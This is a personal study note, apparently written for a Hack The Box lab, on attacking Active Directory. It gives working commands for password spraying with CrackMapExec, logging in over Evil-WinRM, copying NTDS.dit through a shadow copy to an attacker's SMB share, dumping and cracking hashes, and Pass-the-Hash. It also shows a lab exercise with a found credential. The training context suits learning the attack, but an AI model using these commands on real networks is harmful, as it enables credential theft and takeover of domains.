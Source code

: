 # Attacking Active Directory & NTDS.dit

Here we will learn how we can extract credentials through the use of a `dictionary attack against AD accounts` and `dumping hashes` from the `NTDS.dit` file.

our target must be reachable over the network. This means it is highly likely that we will need to have a foothold established on the internal network to which the target is connected.

Here is the authentication process once a Windows system has been joined to the domain.

<figure><img src="../../../../.gitbook/assets/image (3) (1).png" alt=""><figcaption></figcaption></figure>

Once a Windows system is joined to a domain, it will `no longer default to referencing the SAM database to validate logon requests`. That domain-joined system will now send all authentication requests to be validated by the domain controller before allowing a user to log on.

To bruteforce our way into the network, we need to know patterns orgs can utilize when creating employee usernames ->

| Username Convention                 | Practical Example for Jane Jill Doe |
| ----------------------------------- | ----------------------------------- |
| `firstinitiallastname`              | jdoe                                |
| `firstinitialmiddleinitiallastname` | jjdoe                               |
| `firstnamelastname`                 | janedoe                             |
| `firstname.lastname`                | jane.doe                            |
| `lastname.firstname`                | doe.jane                            |
| `nickname`                          | doedoehacksstuff                    |

an same goes for the email -> `jdoe`@`inlanefreight.com`

Let's say we have some employees&#x20;

* Ben Williamson
* Bob Burgerstien
* Jim Stevenson

using the tool [Username Anarchy](https://github.com/urbanadventurer/username-anarchy), we can convert a list of real names into common username formats.

```shell-session
ElFelixi0@htb[/htb]$ ./username-anarchy -i /home/ltnbob/names.txt 

ben
benwilliamson
ben.williamson
benwilli
benwill
<SNIP>
```

Once we have our list(s) prepared or discover the naming convention and some employee names, we can launch our attack against the target domain controller using a tool such as CrackMapExec.

```shell-session
crackmapexec smb 10.129.201.57 -u bwilliamson -p /usr/share/wordlists/fasttrack.txt
```

### Capturing NTDS.dit

`NT Directory Services` (`NTDS`) is the directory service used with AD to find & organize network resources. Recall that `NTDS.dit` file is stored at `%systemroot%/ntds` on the domain controllers in a [forest](https://learn.microsoft.com/en-us/windows-server/identity/ad-ds/plan/using-the-organizational-domain-forest-model). The `.dit` stands for [directory information tree](https://docs.oracle.com/cd/E19901-01/817-7607/dit.html). This is the primary database file associated with AD and stores all domain usernames, password hashes, and other critical schema information

**Connecting to a DC with Evil-WinRM**

Once we have our set of credentials we can try and connect to the DC

```shell-session
evil-winrm -i 10.129.201.57  -u bwilliamson -p 'P@55w0rd!'
```

Once connected, we can check to see what privileges `bwilliamson` has.

```shell-session
*Evil-WinRM* PS C:\> net localgroup
```

To make a copy of the NTDS.dit file, we need local admin (`Administrators group`) or Domain Admin (`Domain Admins group`) (or equivalent) rights.

**Checking User Account Privileges including Domain**

```shell-session
*Evil-WinRM* PS C:\> net user bwilliamson
<SNIP>
Local Group Memberships
Global Group memberships     *Domain Users         *Domain Admins
<SNIP>
```

This account has both Administrators and Domain Administrator rights which means we can do just about anything we want

We can use `vssadmin` to create a [Volume Shadow Copy](https://docs.microsoft.com/en-us/windows-server/storage/file-server/volume-shadow-copy-service) (`VSS`) of the C: drive because NTDS will be stored on C: as that is the default location selected at install, but it is possible to change the location.

```shell-session
*Evil-WinRM* PS C:\> vssadmin CREATE SHADOW /For=C:
```

Then to copy the file we need to create an SMB share on our attack host

We can then copy the NTDS.dit file from the volume shadow copy of C: onto another location on the drive to prepare to move NTDS.dit to our attack host.

```shell-session
*Evil-WinRM* PS C:\NTDS> cmd.exe /c copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\Windows\NTDS\NTDS.dit c:\NTDS\NTDS.dit
```

Now `cmd.exe /c move` can be used to move the file from the target DC to the share on our attack host.

```shell-session
*Evil-WinRM* PS C:\NTDS> cmd.exe /c move C:\NTDS\NTDS.dit \\10.10.15.30\CompData 
```

**Using cme to Capture NTDS.dit**

This is much more faster&#x20;

```shell-session
crackmapexec smb 10.129.201.57 -u bwilliamson -p P@55w0rd! --ntds
```

### Cracking Hashes

Now we can copy the output of the attack and put every NT hash in a txt file to launch hashcat

```shell-session
ElFelixi0@htb[/htb]$ sudo hashcat -m 1000 64f12cddaa88057e06a81b54e73b949b /usr/share/wordlists/rockyou.txt
```

`What if we are unsuccessful in cracking a hash?`

&#x20;We can still use hashes to attempt to authenticate with a system using a type of attack called `Pass-the-Hash` (`PtH`). A PtH attack takes advantage of the [NTLM authentication protocol](https://docs.microsoft.com/en-us/windows/win32/secauthn/microsoft-ntlm) to authenticate a user using a password hash. Instead of `username`:`clear-text password` as the format for login, we can instead use `username`:`password hash`

**Pass-the-Hash with Evil-WinRM Example**

```shell-session
ElFelixi0@htb[/htb]$ evil-winrm -i 10.129.201.57  -u  Administrator -H "64f12cddaa88057e06a81b54e73b949b"
```

_**On an engagement you have gone on several social media sites and found the Inlanefreight employee names: John Marston IT Director, Carol Johnson Financial Controller and Jennifer Stapleton Logistics Manager. You decide to use these names to conduct your password attacks against the target domain controller. Submit John Marston's credentials as the answer. (Format: username:password, Case-Sensitive)**_

```
./username-anarchy/username-anarchy -i listofpeaople.txt > lastusername.txt
```

<figure><img src="../../../../.gitbook/assets/image (2) (1) (1).png" alt=""><figcaption></figcaption></figure>

```
crackmapexec smb 10.129.202.85 -u lastusername.txt -p fasttrack.txt
```

<figure><img src="../../../../.gitbook/assets/image (3) (1) (1).png" alt=""><figcaption></figcaption></figure>

```
cjohnson:Welcome1212
```

Did not manage to finish this, will come back later ->

##

